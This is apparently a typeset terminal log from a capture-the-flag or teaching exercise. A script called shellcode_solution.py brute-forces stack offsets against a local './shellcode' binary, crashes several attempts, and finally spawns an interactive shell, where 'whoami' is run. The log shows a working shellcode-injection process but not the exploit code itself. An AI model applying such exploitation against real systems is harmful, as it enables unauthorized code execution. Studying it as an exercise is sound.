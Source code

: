 \begin{lstlisting}
> ./shellcode_solution.py
[*] Trying offset -200
[+] Starting local process './shellcode': pid 18710
[!] ASLR is disabled!
[*] Trying offset -186
[+] Starting local process './shellcode': pid 18712
[*] Trying offset -172
[+] Starting local process './shellcode': pid 18714
[*] Process './shellcode' stopped with exit code -11 (SIGSEGV) (pid 18714)
[*] Trying offset -158
[+] Starting local process './shellcode': pid 18716
[*] Process './shellcode' stopped with exit code -4 (SIGILL) (pid 18716)
[*] Trying offset -144
[+] Starting local process './shellcode': pid 18718
[*] Trying offset -130
[+] Starting local process './shellcode': pid 18720
[*] Trying offset -116
[+] Starting local process './shellcode': pid 18722
[*] Trying offset -102
[+] Starting local process './shellcode': pid 18724
[*] Trying offset -88
[+] Starting local process './shellcode': pid 18726
[*] Trying offset -74
[+] Starting local process './shellcode': pid 18728
[*] Trying offset -60
[+] Starting local process './shellcode': pid 18730
[*] Trying offset -46
[+] Starting local process './shellcode': pid 18732
[*] Trying offset -32
[+] Starting local process './shellcode': pid 18734
[*] Trying offset -18
[+] Starting local process './shellcode': pid 18736
[*] Trying offset -4
[+] Starting local process './shellcode': pid 18738
[*] Trying offset 10
[+] Starting local process './shellcode': pid 18740
[*] Trying offset 24
[+] Starting local process './shellcode': pid 18742
[*] Trying offset 38
[+] Starting local process './shellcode': pid 18744
[*] Trying offset 52
[+] Starting local process './shellcode': pid 18746
[+] Offset 52 works!!!
[*] Trying offset 66
[+] Starting local process './shellcode': pid 18749
[+] Offset 66 works!!!
[*] Trying offset 80
[+] Starting local process './shellcode': pid 18752
[*] Trying offset 94
[+] Starting local process './shellcode': pid 18754
[*] Trying offset 108
[+] Starting local process './shellcode': pid 18756
[*] Trying offset 122
[+] Starting local process './shellcode': pid 18758
[*] Trying offset 136
[+] Starting local process './shellcode': pid 18760
[*] Trying offset 150
[+] Starting local process './shellcode': pid 18762
[*] Trying offset 164
[+] Starting local process './shellcode': pid 18764
[*] Trying offset 178
[+] Starting local process './shellcode': pid 18766
[*] Trying offset 192
[+] Starting local process './shellcode': pid 18768
[+] Spawning shell with offset 73
[+] Starting local process './shellcode': pid 18770
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ whoami
devneal
$
\end{lstlisting}

